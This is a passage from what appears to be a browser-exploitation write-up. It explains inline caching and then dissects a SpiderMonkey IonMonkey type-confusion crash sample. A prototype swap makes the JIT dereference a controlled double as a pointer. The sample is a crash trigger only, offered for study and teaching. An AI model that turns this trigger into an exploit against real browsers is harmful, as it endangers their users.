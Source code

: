 Inline caching basically means to save the result of a previous lookup so that the next time the same lookup takes place, the saved value is directly used and the cost of the lookup is saved. Thus if we are trying to call, say, `Array.pop()` then the initial lookup involves the following - fetching the prototype of the array object, then searching through its properties for the `pop` function and finally fetching the address of the pop function. Now if the `pop` function is inlined at this point, then the address of this function is saved and the next time `Array.pop` is called, all these lookups need not be re-computed.

[Mathais Baynens](https://twitter.com/mathias), a v8 developer, has written a couple of really good articles on [inline caching](https://mathiasbynens.be/notes/shapes-ics) and [prototype's](https://mathiasbynens.be/notes/prototypes)

Now lets take a look at the crashing sample found by saelo

```js
// Run with --no-threads for increased reliability
const v4 = [{a: 0}, {a: 1}, {a: 2}, {a: 3}, {a: 4}];
function v7(v8,v9) {
    if (v4.length == 0) {
        v4[3] = {a: 5};
    }

    // pop the last value. IonMonkey will, based on inferred types, conclude that the result
    // will always be an object, which is untrue when  p[0] is fetched here.
    const v11 = v4.pop();

    // Then if will crash here when dereferencing a controlled double value as pointer.
    v11.a;

    // Force JIT compilation.
    for (let v15 = 0; v15 < 10000; v15++) {}
}

var p = {};
p.__proto__ = [{a: 0}, {a: 1}, {a: 2}];
p[0] = -1.8629373288622089e-06;
v4.__proto__ = p;

for (let v31 = 0; v31 < 1000; v31++) {
    v7();
}
```

Right, so initially an array, `v4` is created with all the elements as objects. SpiderMonkey's type inference system, notices this and infers that the const array `v4` will always hold objects.

Now another array `p` is initialized with all objects and `p[0]` is set to a float value. Now comes the interesting part. The prototype of the array `v4` is changed but the type inference _system does not track this_. Interesting but not a bug.

So lets look at the function `v7`.  While there are elements in the array, they are simply popped out and their `a` property is accessed.

The `for` loop in the tail of the function forces IonMonkey to JIT compile this function into native assembly.
